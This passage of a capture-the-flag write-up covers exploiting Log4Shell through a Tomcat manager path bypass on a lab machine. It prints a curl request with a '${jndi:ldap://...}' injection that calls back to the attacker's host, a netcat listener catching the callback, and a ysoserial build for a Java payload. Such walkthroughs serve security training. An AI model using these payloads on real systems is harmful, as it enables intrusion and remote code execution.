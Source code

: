```bash
$ curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: 10.10.11.138' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Authorization: Basic dG9tY2F0OnRvbWNhdA==' \
    --data-binary $'idle=${jndi:ldap://10.10.14.3/file}' \
    $'http://10.10.11.138/kali/..;/manager/html/expire?path=/UHC%7BBadWayToBlockTomcat%7D'
```

```bash
$ nc -nlvp 389
listening on [any] 389 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.138] 35994
0
 `
```

Ok, now we know that this parameter is vulnerable.

We have can exploit this with 2 tools: [ysoserial](https://github.com/frohoff/ysoserial) and [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit)

The [ysoserial](https://github.com/frohoff/ysoserial) is going to help us to create a Java payload.

To avoid java version problems, we are going to build it on a docker container. Clone it and then build it on docker.

```bash
$ cd /opt/ysoserial

$ docker build . -t ysoserial
Sending build context to Docker daemon  1.004MB
Step 1/14 : FROM maven:3.5-jdk-8 as builder
3.5-jdk-8: Pulling from library/maven
bc9ab73e5b14: Pull complete 
193a6306c92a: Pull complete 
e5c3f8c317dc: Pull complete 
a587a86c9dcb: Pull complete 
a4c7ee7ef122: Pull complete 
a7c0dad691e9: Pull complete 
367a6a68b113: Pull complete 
60c0e52d1ec2: Pull complete 
c9d22bc43935: Pull complete 
41dbcd970503: Pull complete 
72c52bb7e9b7: Pull complete 
275d6d4a835d: Pull complete 
Digest: sha256:b90230c6c65fa00b3404555ad9d3a131101cef791e5583aab18ac420def7d6bb
Status: Downloaded newer image for maven:3.5-jdk-8
 ---> 985f3637ded4
Step 2/14 : WORKDIR /app
 ---> Running in 766192233b70
Removing intermediate container 766192233b70
 ---> 6a73b8183e9b
Step 3/14 : COPY pom.xml .
 ---> be69ba0dd5c9
Step 4/14 : COPY assembly.xml .
 ---> 18321a7ff01c
Step 5/14 : RUN mvn dependency:resolve
 ---> Running in ba10ff365c38
[INFO] Scanning for projects...


...


[INFO] ------------------------------------------------------------------------
[INFO] BUILD SUCCESS
[INFO] ------------------------------------------------------------------------
```